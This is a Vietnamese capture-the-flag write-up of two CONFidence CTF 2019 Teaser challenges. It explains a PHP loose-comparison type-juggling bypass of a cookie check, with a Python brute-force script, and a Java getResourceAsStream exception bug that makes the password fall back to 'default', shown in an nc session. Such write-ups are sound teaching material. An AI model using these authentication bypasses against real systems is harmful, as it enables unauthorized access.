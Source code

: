 ```yaml
---
layout: post
comments: true
title: CONFidence CTF 2019 Teaser
---
```

Giải do team p4 tổ chức, và tất nhiên là rất chất lượng. Nhưng là mới chỉ là Teaser thôi nên mình vẫn chưa ngập hành. 


![alt text](https://raw.githubusercontent.com/matuhn/matuhn.github.io/master/images/con1.png "CONFidence CTF 2019")

# My admin panel (WEB)
[Link Challenge](https://gameserver.zajebistyc.tf/admin/)

Vào challenge mình thấy có ngay 2 file là login.php và login.php.bak (File Backup)

![alt text](https://raw.githubusercontent.com/matuhn/matuhn.github.io/master/images/con2.png "/admin")

Nội dung file index.php.bak

```PHP
<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();
```

Đọc hiểu code thì nó sẽ lấy giá trị của cookie `otadmin` check xem có dạng /^{"hash": [0-9A-Z\"]+}$/ hay là không
Nói dễ hiểu hơn thì cookie sẽ phải có dạng json {"hash" : "abcxyz123jj"} thì pass cái if 1 và if 2 if 3
để pass cái if thứ 4 thì cái giá trị của hash khi parse vào phải bằng với giá trị của `strtoupper(MD5($cfg_pass))`

Nếu không thể pass if 4 nó sẽ gợi ý cho mình bằng function sau 

```PHP

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }
```

Output:

```
0 0 0 64 64 64 0 64 0 0 64 0 0 0 64 64 64 64 0 0 0 64 0 0 64 0 64 0 64 64 0 0
```

Sau 1 hồi nghịch ngợm với cái đống này thì mình phát hiện ra 1 điều 
Nếu `ord(MD5($cfg_pass)[$i])` return từ 0 - 63 thì `ord(MD5($cfg_pass)[$i]) & 0xC0` = 0
Còn lại thì sẽ ra 64, điều đó đồng nghĩa với việc với 1 mỗi 1 con số từ 0-9 -> sẽ có 1 số 0 
và nếu là kí tự , thì sẽ có số 64 
So sánh với Output ở trên mình sẽ có 3 giá trị đầu tiên là number , và giá trị thứ 4 là character 

Tất nhiên là không thể brute được cái cfg_pass là gì, làm gì có cái mùa xuân đó, nếu brute được thì chắc mất cả năm 
Nên mình nhìn lại toàn bộ source code 1 lần nữa thì dòng này khiến cho mình chú ý 

```PHP
if ($session_data['hash'] != strtoupper(MD5($cfg_pass)))
```

Tại sao là `!=` chứ không phải là `!==` ? PHP Type Juggling ? Trùng hợp là 3 kí tự đầu tiên lại là number 
Chắc chắn là Type Juggling 

Solution: 

```python
import requests,json
def bruteCookie(i):
    url = "https://gameserver.zajebistyc.tf/admin/login.php"
    cookie = json.dumps({
        "hash" : (i)
    })
    cookie = {"otadmin" : cookie}
    print (cookie)
    answer = requests.get(url,cookies=cookie)
    if not "I CAN EVEN " in answer.text:

        print answer.text


for i in range(1,999):
    bruteCookie(i)
```

Flag : `p4{wtf_php_comparisons_how_do_they_work}`

# Sloik (MISC)

```
nc sloik.zajebistyc.tf 30001
```
Cho 2 file source, 1 file py, 1 file jar

Source Python:

```python
import os
import shutil
import signal
import subprocess
import sys

cwd = os.getcwd()
sandbox_name = ''


def cleanup(a, b):
    global sandbox_name
    if sandbox_name != '':
        sandbox_path = os.path.join(cwd, sandbox_name)
        if os.path.exists(sandbox_path):
            shutil.rmtree(sandbox_path)


def main():
    global sandbox_name
    signal.signal(signal.SIGALRM, cleanup)
    signal.alarm(10)

    print "username: ",
    sys.stdout.flush()
    sandbox_name = sys.stdin.readline().strip()
    sandbox_path = os.path.join(cwd, "sandbox", os.path.basename(sandbox_name))

    if os.path.exists(sandbox_path):
        print "Sorry, this name is taken"
        exit(1)
    else:
        os.mkdir(sandbox_path)
        java_app = 'sloik-1.0-SNAPSHOT-jar-with-dependencies.jar'
        shutil.copy(java_app, sandbox_path)
        flag_data = open('flag.txt','r').read()
        os.chdir(sandbox_path)
        subprocess.call(['java', '-Xmx8m', '-jar', java_app], stdin=sys.stdin, stdout=sys.stdout, stderr=sys.stderr, env={'flag': flag_data})
    os.chdir("../")
    cleanup("","")


main()
```

Source Java:

```java
/* 
 * Decompiled with CFR 0.140.
 */
package team.p4.sloik;

import java.io.InputStream;
import java.io.PrintStream;
import java.util.Properties;
import java.util.Scanner;

public class Main {
    public static void main(String[] args) {      
        Properties properties = new Properties(); 
        try {
            InputStream stream = Main.class.getResourceAsStream("/application.properties"); 
            properties.load(stream);
        }
        catch (Exception e) {
            properties.put("password", "default");
        }
        Scanner sc = new Scanner(System.in);
        System.out.println("Password:");
        String password = sc.nextLine();
        if (password.equals(properties.get("password"))) {
            System.out.println("Welcome admin, flag is: " + System.getenv("flag")); 
        }
    }
}
```

À, bài này nó cho file jar để đọc Code file jar thì mình xài [CFR](https://www.benf.org/other/cfr/)

ok nhìn vào thì khi nc tới server của nó, nó sẽ bắt mình nhập 2 thông tin là username và password
Username khi mình nhập vào nó sẽ dùng để tạo 1 folder ở server của nó, rồi copy cái file jar trên vào rồi check tiếp 
Nhìn qua file java thì nếu password trùng với password trong file config của nó thì ra flag 

```java
try {
            InputStream stream = Main.class.getResourceAsStream("/application.properties"); 
            properties.load(stream);
        }
        catch (Exception e) {
            properties.put("password", "default");
        }
```

Nhưng mà cái ở đây mình để ý là phần catch Exception, thầy dạy Java của mình ở trường đã bảo là khi code có vô số trường hợp xảy ra mà người lập trình không thể dự tính trước được thì sẽ catch lại bằng cái Exception 

Sẽ không có vấn đề gì với cái code này nếu người ra đề không phải là team p4
Thử Google 1 chút với keyword `getResourceAsStream jar throw exception report bug java` thì tìm dc [Link](https://bugs.java.com/bugdatabase/view_bug.do?bug_id=4523159) này, do team p4 report luôn

Đại loại bug này là nếu mình thêm `!` vào sau cái tên directory thì khi `getResourceAsStream` parse vào sẽ quăng Exception 
Nếu bị quăng Exception thì sao? password sẽ được set thành `default` 
```
matuhn@SE130149:/mnt/d/ctf/tool/jd-gui$ nc sloik.zajebistyc.tf 30001
username: z3r0_n1ght!
Password:
default
Welcome admin, flag is: p4{fire_exclamation_mark_fire_exclamation_mark}
```


